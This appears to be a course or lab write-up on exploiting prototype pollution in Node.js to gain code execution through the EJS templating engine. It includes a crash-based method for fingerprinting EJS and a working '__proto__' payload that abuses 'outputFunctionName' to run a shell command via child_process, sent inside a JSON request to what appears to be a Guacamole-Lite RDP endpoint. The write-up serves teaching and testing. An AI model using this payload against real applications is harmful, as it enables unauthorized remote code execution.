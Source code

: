 ## Theory

We start by reviewing the EJS template.
The actual JavaScript code that runs EJS is 1120 lines.
For this reason, we'll start with EJS to familiarize ourselves with the process, and then move on to more complicated libraries like Handlebars and Pug.

One of the components that make EJS simpler than Pug and Handlebars is that EJS lets developers write pure JavaScript to generate templates.
Other templating engines, like Pug and Handlebars are essentially separate languages that must be parsed and compiled into JavaScript.

To discover how to exploit EJS using prototype pollution, we'll use the interactive Node CLI.
This will allow us to load the EJS module, run functions, and debug them directly without having to reload the web page.
This will obviously allow us to reload the CLI quicker when we break things with prototype pollution since we won't have to restart the web server.
When we get a working payload using the CLI, we'll use that information to exploit the web application.

We can start by reviewing the compile function of the EJS template:

![](../../03.%20Images/t10-ss40.png)

The **compile** function accepts two arguments:
1. a template string.
2. an options object.
After checking for deprecated options, a variable is created from the **Template** class and the **compile** function is executed within the **Template** object.

A quick review of the _render_ function reveals that it is a wrapper for the _compile_ function with a cache:

![](../../03.%20Images/t10-ss41.png)

We can try executing both the functions:

![](../../03.%20Images/t10-ss42.png)

Next, we provide the **compile** and **render** functions a template, some data, and options.
The response is a compiled JavaScript function. When run, the function outputs "Hello, World".

Reviewing the template class:

![](../../03.%20Images/t10-ss43.png)

We find that the _options_ object is parsed at the starting of the function.
However, many values are only set if the value exists. This is a perfect location to inject with a prototype pollution vulnerability.

The **escapeFunction** value is set to the **opts.escape** value.
If we remember the modifications to the **toString** function, when an application or library expects a function but instead receives a string, the application crashes.
We can try this out on the options function:

![](../../03.%20Images/t10-ss44.png)

Here, we create an escape function.
Our escape function accepts a parameter(_x_), logs a message, and returns the **x** parameter. When rendering a template with the **escape** function, the message is logged and the template is returned.

We define a new object `o` with an `escape` property that is set to a string value.
When we pass this object to `ejs.render()`, the `escape` property is not a function, and the `ejs.render()` function throws an error because it expects the `escape` property to be a function:

![](../../03.%20Images/t10-ss45.png)

However, this is great for us because we can determine if the target application is running EJS.
If a prototype pollution vulnerability sets **escape** to a string, and the application crashes, we know we are dealing with an application running EJS.

To see this in our application, we can edit our payload as follows:

![](../../03.%20Images/t10-ss46.png)

and with this, we get an error crashing the application:

![](../../03.%20Images/t10-ss47.png)

In blackbox scenarios, the **toString** function is a great method to discover if the application is vulnerable to prototype pollution.
However, this EJS proof of concept can be used to narrow down the templating engine that is being used in the application.
Next, let's attempt to obtain RCE using EJS.

## Code Execution

The most natural progression to achieve RCE would be to inject custom JavaScript into the template function during compilation.
When the template function executes, so would our injected code.
We'll again review the **compile** function in our IDE by opening node_modules/ejs/lib/ejs.js.
We will start reviewing from this last step to find if we can inject into the template near the end of the process.
This will lower the risk of the prototype pollution interfering with normal operation of the application and our payload has less chance of getting modified in the process.

Now, in the compile function:

![](../../03.%20Images/t10-ss48.png)

The code checks if the **outputFunctionName** variable within the **opts** object exists.
If the variable does exist, the variable is added to the content.

A quick search through the code finds that this variable is only set by a developer using the EJS library. The documentation states that:

```text
The outputFunctionName variable is set to a string (e.g., 'echo' or 'print') for a function to print output inside scriptlet tags.
```

The **outputFunctionName** is typically not set in templates.
Because of this, we can most likely use it to inject with prototype pollution.

The string we're injecting into is as follows:

```javascript
 'var ' + opts.outputFunctionName + ' = __append;'
```

For this to work, our payload will need to complete the variable declaration on the left side, add the code we want to run in the middle, and complete the variable declaration on the right side.
If our payload makes the function invalid, EJS will crash when the page is rendered.
The payload will be as follows:

```javascript
 var x = 1; WHATEVER_JSCODE_WE_WANT ; y = __append;'
```

In a console it will look something like this:

![](../../03.%20Images/t10-ss49.png)

Thus, our final payload will be as follows:

```javascript
"__proto__":
{
    "outputFunctionName":   "x = 1; console.log(process.mainModule.require('child_process').execSync('whoami').toString()); y"
}
```

Using it on the application, our request would be:

```JSON
{
    "connection":{
        "type":"rdp",
        "settings":{
            "hostname":"rdesktop",
            "username":"abc",
            "password":"abc",
            "port":"3389",
            "security":"any",
            "ignore-cert":"true",
            "client-name":"",
            "console":"false",
            "initial-program":"",
            "__proto__":
            {
                "outputFunctionName":   "x = 1; console.log(process.mainModule.require('child_process').execSync('whoami').toString()); y"
            }
        }
    }
}
```

Generating the token, and passing it in the guaclite endpoint:

![](../../03.%20Images/t10-ss50.png)

We have achieved blind RCE.

